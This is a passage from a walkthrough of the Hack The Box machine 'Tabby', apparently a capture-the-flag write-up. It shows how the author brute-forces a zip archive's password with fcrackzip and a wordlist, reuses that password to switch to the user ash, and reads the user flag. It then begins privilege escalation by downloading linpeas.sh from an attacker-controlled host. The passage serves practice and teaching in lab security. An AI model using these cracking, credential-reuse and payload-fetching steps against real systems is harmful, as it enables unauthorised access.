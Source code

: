 kali@kali:~/Tabby$ wget "http://10.10.10.194:4445/16162020_backup.zip"
--2020-09-05 04:36:17--  http://10.10.10.194:4445/16162020_backup.zip

kali@kali:~/Tabby$ unzip 16162020_backup.zip
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/7_backup.png" width="500"/>
</p>

He asks for a password we don't have, the tomcat one didn't work so the first option is bruteforce.



```
kali@kali:~/Tabby$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
PASSWORD FOUND!!!!: pw == admin@it

kali@kali:~/Tabby$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: admin@it
```

Okey, nothing interesting in the files, but the previous brand name and other emails, but no worth info atm. 
I wanted to spray and pray with password of the zipfile **admin@it** and the known **ash** user (remember the passwd file we got).

```
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ cd /home/ash
cd /home/ash
ash@tabby:~$ cat user.txt
cat user.txt
1dcf4062cf7712b5edce6647320a5a7a
ash@tabby:~$ 
```

Lucky us. We've got the user.

```
cat user.txt
1dcf4062cf7712b5edce6647320a5a7a
```

## Privilege Scalation

- linpeas.sh time.

```
ash@tabby:~$ wget "http://10.10.14.113/linpeas.sh"

